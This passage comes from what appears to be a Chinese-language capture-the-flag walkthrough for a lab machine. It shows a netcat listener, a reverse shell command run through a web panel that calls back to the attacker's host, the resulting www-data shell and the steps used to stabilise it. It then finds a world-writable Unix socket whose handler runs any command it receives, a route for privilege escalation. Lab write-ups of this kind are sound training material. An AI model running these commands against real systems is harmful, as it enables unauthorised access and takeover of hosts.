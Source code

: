 ```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
```

在Web面板中执行：

```bash
busybox nc 192.168.205.128 8888 -e /bin/bash
```

成功获取 `www-data` 用户的shell。

```bash
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.142] 51576
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

为方便后续操作，通过以下步骤稳定shell：

```bash
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 36 columns 178
```

# 三、权限提升

## **1. www-data -> helpdesk**

在目标主机上进行信息搜集，在 `/opt/helpdesk-socket/` 目录下发现了一个可利用的Unix套接字。

```bash
www-data@helpdesk:/opt/helpdesk-socket$ ls -al
total 16
drwxr-xr-x 2 helpdesk helpdesk 4096 Aug 23 15:17 .
drwxr-xr-x 4 root     root     4096 Aug 16 15:32 ..
-rwxr-xr-x 1 helpdesk helpdesk  158 Aug 16 15:32 handler.sh
srwxrwxrwx 1 helpdesk helpdesk    0 Aug 23 15:17 helpdesk.sock
-rw-r--r-- 1 root     root      184 Aug 16 15:44 serve.sh
```

查看 `handler.sh` 和 `serve.sh` 脚本内容：

```bash
www-data@helpdesk:/opt/helpdesk-socket$ cat *
#!/bin/bash
# Simple parser — executes anything sent over the socket (dangerous!)
read cmd
echo "[HelpDesk Automation] Executing: $cmd"
/bin/bash -c "$cmd"
cat: helpdesk.sock: No such device or address
#!/bin/bash

SOCKET="/opt/helpdesk-socket/helpdesk.sock"

[ -e "$SOCKET" ] && rm "$SOCKET"

/usr/bin/socat -d -d UNIX-LISTEN:$SOCKET,fork,mode=777 EXEC:/opt/helpdesk-socket/handler.sh
```
